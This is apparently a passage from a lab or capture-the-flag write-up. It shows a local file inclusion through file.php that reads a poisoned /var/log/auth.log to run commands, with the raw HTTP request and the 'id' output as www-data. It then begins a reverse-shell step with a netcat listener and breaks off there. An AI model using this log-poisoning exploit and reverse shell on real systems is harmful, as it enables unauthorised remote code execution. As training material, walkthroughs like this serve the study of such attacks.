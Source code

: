 ## accessing the web shell
```http
GET /console/file.php?file=%2fvar%2flog%2fauth%2elog&c=id HTTP/1.1
Host: 192.168.103.80
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.72 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

```http
HTTP/1.1 200 OK
Date: Wed, 11 Jan 2023 22:04:39 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 9463
Connection: close
Content-Type: text/html; charset=UTF-8

Sep  2 05:09:55 ubuntu sshd[360]: Received signal 15; terminating.
Oct 17 19:30:24 ubuntu systemd-logind[370]: New seat seat0.
Oct 17 19:30:24 ubuntu systemd-logind[370]: Watching system buttons on /dev/input/event0 (Power Button)
Oct 17 19:30:24 ubuntu systemd-logind[370]: Watching system buttons on /dev/input/event1 (AT Translated Set 2 keyboard)
Oct 17 19:30:24 ubuntu sshd[406]: Server listening on 0.0.0.0 port 22.
Oct 17 19:30:24 ubuntu sshd[406]: Server listening on :: port 22.
Oct 17 19:31:01 ubuntu CRON[694]: pam_unix(cron:session): session opened for user root by (uid=0)
Oct 17 19:31:01 ubuntu CRON[694]: pam_unix(cron:session): session closed for user root
Oct 17 19:32:01 ubuntu CRON[697]: pam_unix(cron:session): session opened for user root by (uid=0)
...
Jan 11 13:48:01 ubuntu CRON[1051]: pam_unix(cron:session): session closed for user root
Jan 11 13:48:27 ubuntu sshd[1054]: Invalid user uid=33(www-data) gid=33(www-data) groups=33(www-data)
...
```

> It worked! We got code execution!
{: .prompt-info }

---

# post exploitation
## reverse shell
### start listener on attacker machine
```bash
$ nc -lvp 80 
listening on [any] 80 ...
```
